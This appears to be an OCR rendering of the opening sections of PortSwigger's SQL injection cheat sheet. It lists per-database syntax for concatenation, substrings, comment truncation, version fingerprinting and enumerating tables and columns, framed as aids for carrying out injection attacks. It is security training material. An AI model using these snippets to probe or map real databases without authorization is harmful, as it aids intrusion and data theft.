 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

| Oracle  `'foo'||'bar'` |
| Microsoft  `'foo'+'bar'` |
| PostgreSQL  `'foo'||'bar'` |
| MySQL  `'foo' 'bar'` 
        `CONCAT('foo','bar')` |

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle | `SUBSTR('foobar', 4, 2)` |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL | `SUBSTRING('foobar', 4, 2)` |

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle | `--comment\
` |
| Microsoft | `--comment\
/*comment*/` |
| PostgreSQL | `--comment\
/*comment*/` |
| MySQL | `#comment`\
`-- comment` 
`/*comment*/` |

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle | `SELECT banner FROM v$version\
SELECT version FROM v$instance\
` |
| Microsoft | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| MySQL | `SELECT @@version` |

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle | `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| PostgreSQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| MySQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
